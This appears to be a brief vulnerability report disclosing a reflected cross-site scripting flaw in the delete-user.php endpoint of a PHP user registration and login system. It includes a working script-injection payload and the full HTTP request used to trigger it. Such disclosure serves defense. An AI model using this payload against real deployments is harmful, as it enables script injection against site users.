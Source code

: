 ## User Registration and Login System by rems has xss (Reflected XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



Vulnerability File: /endpoint/delete-user.php





[+] payload: /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt>
```
GET /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt> HTTP/1.1
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```
![Alt text](image.png)
